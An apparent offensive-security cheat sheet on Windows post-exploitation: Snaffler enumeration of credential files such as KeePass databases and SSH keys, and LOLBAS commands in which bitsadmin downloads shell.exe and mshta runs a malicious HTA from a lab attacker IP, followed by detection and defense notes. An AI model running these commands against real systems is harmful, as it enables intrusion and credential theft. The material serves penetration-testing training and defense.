 ## 🔄 Advanced Miscellaneous Techniques

### File System Analysis Tools
```cmd
# Snaffler for comprehensive file enumeration:
.\Snaffler.exe -s -o snaffler.log

# Target file types:
- Files with "pass" in filename
- KeePass database files (.kdbx)
- SSH keys (id_rsa, *.pem)
- Web.config files
- Virtual disk files (.vhd, .vhdx, .vmdk)
```

### LOLBAS Exploitation Examples
```cmd
# Bitsadmin file transfer:
bitsadmin /transfer myDownloadJob /download /priority normal http://10.10.14.3/shell.exe C:\temp\shell.exe

# Forfiles command execution:
forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe

# Mshta code execution:
mshta http://10.10.14.3/malicious.hta
```

## ⚠️ Detection & Defense

### Detection Indicators
```cmd
# Monitor for:
- LOLBAS binary usage outside normal context
- MSI installations by standard users
- Certificate dialog browser spawning
- Virtual disk mounting activities
- Scheduled task script modifications
- Unusual certutil/bitsadmin usage
```

### Defensive Measures
```cmd
# Security recommendations:
- Disable AlwaysInstallElevated policy
- Patch CVE-2019-1388 and similar vulnerabilities
- Monitor LOLBAS binary execution
- Secure scheduled task script permissions
- Restrict virtual disk file access
- Implement application allowlisting
- Regular privilege escalation assessments
```
